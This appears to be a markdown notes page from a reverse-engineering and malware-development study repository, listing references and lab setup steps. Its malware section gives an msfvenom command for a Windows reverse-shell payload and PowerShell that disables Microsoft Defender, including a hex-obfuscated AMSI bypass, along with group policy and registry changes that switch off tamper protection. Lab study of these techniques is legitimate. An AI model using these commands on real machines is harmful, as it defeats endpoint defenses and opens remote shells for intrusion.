



# Reverse Engineering
### References of Reverse Engineering
- Online Book - [The Ghidra Book](https://nostarch.com/GhidraBook) By Chris Eagle, Kara Nance.
- GitHub Repository - [CSAW CTF - Qualification Round 2018](https://github.com/mohamedaymenkarmous/CTF/tree/master/CSAWCTFQualificationRound2018#a-tour-of-x86---part-1) by mohamedaymenkarmous.
- **Free** Online Book - [Reverse Engineering For Beginners](https://mirrors.ocf.berkeley.edu/parrot/misc/openbooks/programming/ReverseEngineeringForBeginners.en.pdf) by Dennis Yurichev.
- Online Challenges -  [Reverse engineering challenges](https://challenges.re/) by Dennis Yurichev.

---

# Malware Development

## Tools
- [Process Hacker](https://processhacker.sourceforge.io/)
- Kali VM 
- Windows 11 or 10 VM
- Parrot 


## Before getting started
You might need to generate the payload in `Kali`.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<YOUR_IP_ADDR> LPORT=4444 -f c
```


## Turn off the defender

### Step 01
`Windows 10` or lower version should be fine after this step, but if you are testing in `Window 11+`, I recommend you to go through step 2 and 3 as well.
```powershell

Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -DisableRealtimeMonitoring $true
[Ref].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```


### Step 02
```powershell
# WIN + R
gpedit.msc
```
- In the `Group Policy Editor`, go to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus`.

- Navigate to `Computer Configuration` > `Administrative Templates` > `Windows Components` > `Microsoft Defender Antivirus` > `Tamper Protection`.
- Enable the policy named Turn off `Tamper Protection`.

- Find the policy named Turn off `Microsoft Defender Antivirus`.
- Double-click it, set it to `Enabled`, and then click `Apply` and `OK`.

- Go to `Real-time Protectio`n under the `Microsoft Defender Antivirus settings`.
- Find Turn off `real-time protection` and set it to `Enabled`


### Step 03
```powershell
# WIN + R 
regedit
```
Go to `HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows Defender`
#### Then setup as follows:
- DisableAntiSpyware = 1
- DisableRoutinelyTakingAction = 1
- ServiceStartStates = 4

### Run Powershell as an administrator
```powershell
Start-Process powershell -Verb runAs

# Run the command prompt

powershell -Command "Start-Process cmd -Verb RunAs"

```

### References of Malware Development
- [**Nightmare** - An amazing intro to binary exploitation / reverse engineering course](https://guyinatuxedo.github.io/index.html) by [guyinatuxedo](https://github.com/guyinatuxedo).
- [**CTF Workshops** - About Challenges for Binary Exploitation Workshop](https://github.com/kablaa/CTF-Workshop) by [kablaa](https://github.com/kablaa).
- [Malware-Development-for-Ethical-Hackers
](https://github.com/PacktPublishing/Malware-Development-for-Ethical-Hackers) by Zhassulan Zhussupov, 2024.
- cocomelonc (Zhassulan Zhussupov) (2021) https://cocomelonc.github.io/ (blog).
- [Medium Tutorial - DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.

